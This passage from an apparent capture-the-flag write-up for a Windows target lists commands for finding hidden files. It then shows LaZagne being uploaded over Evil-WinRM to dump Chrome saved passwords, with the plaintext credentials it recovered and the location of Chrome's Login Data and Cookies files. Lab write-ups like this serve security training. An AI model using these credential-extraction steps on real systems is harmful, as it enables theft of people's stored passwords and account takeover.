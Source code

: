 **Hidden File Techniques**:
```powershell
# Different methods to find hidden files
# Method 1: PowerShell with -Force
Get-ChildItem -Force

# Method 2: Using attrib command
attrib C:\WorkFiles\*

# Method 3: dir with /a switch
cmd /c dir /a:h C:\WorkFiles
```

### FLAG 9: Browser Data Extraction

**Location**: Chrome saved passwords  
**Difficulty**: Medium

```powershell
# Method 1: Using LaZagne for automated extraction
*Evil-WinRM* PS C:\Temp> upload /home/kali/tools/LaZagne.exe
*Evil-WinRM* PS C:\Temp> .\LaZagne.exe browsers

|====================================================================|
|                                                                    |
|                        The LaZagne Project                        |
|                                                                    |
|                          ! BANG BANG !                            |
|                                                                    |
|====================================================================|

[+] Chrome passwords

URL: http://internal-app.local
Login: admin
Password: Administrator123
Flag: FLAG{N************6}

URL: https://webmail.overclock.io
Login: jsmith@overclock.io
Password: Welcome1
```

**🎯 FLAG 9 FOUND**: FLAG{N**********6} - Browser saved password

**Manual Chrome Password Location**:
```powershell
# Chrome stores passwords here (encrypted with DPAPI)
*Evil-WinRM* PS C:\> $chromePath = "$env:LOCALAPPDATA\Google\Chrome\User Data\Default"
*Evil-WinRM* PS C:\> Get-ChildItem $chromePath

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/15/2025  10:00 AM         262144 Login Data
-a----         9/15/2025  10:00 AM         131072 Cookies
-a----         9/15/2025  10:00 AM        1048576 History
```
